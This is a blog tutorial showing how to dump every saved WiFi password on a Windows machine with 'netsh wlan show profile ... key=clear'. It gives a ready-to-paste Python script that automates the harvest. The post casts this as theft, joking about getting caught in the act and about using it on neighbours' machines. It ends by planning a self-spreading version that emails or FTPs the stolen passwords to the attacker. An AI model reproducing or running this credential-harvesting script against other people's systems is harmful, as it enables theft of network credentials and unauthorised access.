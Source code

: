 ```yaml
---
title: How to extract all WiFi Passwords with a single python script
date: "2021-02-07T12:00:00.000Z"
description: "Did you know that all the Wifi Passwords you type in a windows machine are stored locally and you can extract them all with just a few lines on command line. What's better is this can be automated by using python which allows us to exectue execute intructions on command line. Let's see how we can this as well "
---
```


Before starting anything I just wanna say (obligatory), **This is all for educational purpose and shouldn't be used for harming anyone**

Also that this can easily be done in any language that allows you to execute commands on the terminal. So let's see how this can be done on the terminal then we will see how we can automate this via python.

## Open a Terminal 

Press `Win + R` and type `cmd` in the input box next to `run: ` and press enter 

![](./images/Zero.JPG)

## Show all the saved profiles in your system 

Type `netsh wlan show profiles` and press enter. This should show all the Wifi Profiles saved on your system

![](./images/One.JPG)

## Details about a specific WiFi Profile

Enter `netsh wlan show profile <profile>` and replacing `<profile>` with the name of the profile you want to get details about 

![](./images/Two.JPG)

You can see `Security key: Present` in the `Security Settings` Section but it isn't showing the password. For that, we will have to pass in a parameter of `key=clear`. 

## So let's try this again

`netsh wlan show profile <profile> key=clear`

And voila 🥳🎊 We have the password in the `Key Content` Field just below `Security key: Present`
![](./images/Three.JPG)

The problem you can see here is that you will have to run this statement for each WiFi Profile and it might take some time to do this manually. Might just be the difference between you walking away with all passwords or getting caught in the act xD 

# Now let's automate this

I chose python because I am comfortable with it and have experience with executing instructions on the shell line via python but you can do the same with any language which allows you to execute commands on cmd and the output back. 

## How to execute a command on the shell from python

We could have used the `system()` method of the `os` module but the problem with that is that it runs the commands and prints the output directly on the stdout pipeline and there is no straight way to capture the output in a variable(as far as I know). So I'll be using the `check_output()` method of the `subprocess` module which takes in a list representing the command and returns the output after running the command as bytes. 

## Running commands and formating output

Let's see how we can use this to run `netsh wlan show profiles` 
```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 
```   

And if we try printing `output`, it should look something like this: 

```
b'\r\nProfiles on interface Wi-Fi:\r\n\r\nGroup policy profiles (read only)\r\n---------------------------------\r\n    <None>\r\n\r\nUser profiles\r\n-------------\r\n    All User Profile     : JioFiber-5G\r\n    All User Profile     : JioFiber\r\n    All User Profile     : Blablabla 2\r\n   
 All User Profile     : Jaya\r\n    All User Profile     : 5G_Home\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E 2\r\n    All User Profile     : Jio-2_4G\r\n    All User Profile     : Blablabla\r\n    All User Profile     : Jio5G\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E\r\n    All User Profile     : Le pakad\r\n\r\n'
 ```
<br>

>  **NOTE:** You might get `\n` only instead of `\r\n` depending on which OS you are running this on. This is because DOS and Unix represent linebreak in different ways which are being carried to windows and Linux(why?). This can be a whole blog in itself 😂

Next, we should decode this string to `utf-8` and split it into different strings, and extract all the important information, a.k.a. Wifi profiles

```
data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())
```

Now we should have all the profiles in a nice concise list

## Extracting Passwords for each profile

All we got to do now is loop over profiles and execute the same command for each profile, format the data and extract what's important for us. PASSWORDS (insert evil noise)

```
gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])
```
And at last, drum rolls, please 🥁🥁

```
for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```
I am sorry but I can't show you my output 😜 but here is a representation of how it should look
```
Username: ABCD
Password: password
------------------
Username: Lock
Password: key
------------------
Username: Safe
Password: verysafe

```
# What you want to copy-paste 

```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 

data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())

gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])

for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```

# Conclusion 
We learned about the `netsh` command on a shell which can be used to view all saved Wifi profiles and also how we can view information about a specific Wifi profile and we got to know how we can add pass an additional parameter to view the saved password, and at the end, we automated this whole process using python. Remember you can automate using any language with allows you to execute commands on a shell and read the output. 

# Next Step 
Ideas must be going left and right how you can execute this script on your neighbors and get their wifi and live the rest of your life for free, well ME TOO. So I am thinking of automating this to an extent that this script should infect the system on its own and extract the passwords and then send them to you via mail or an FTP server so that you don't even need to visit your neighbors.     Covid you know 🤷🏻‍♂😂

Follow me out on twitter [@jai_dewani](https://twitter.com/jai_dewani) if you wanna an update whenever I decide to post the next part 😉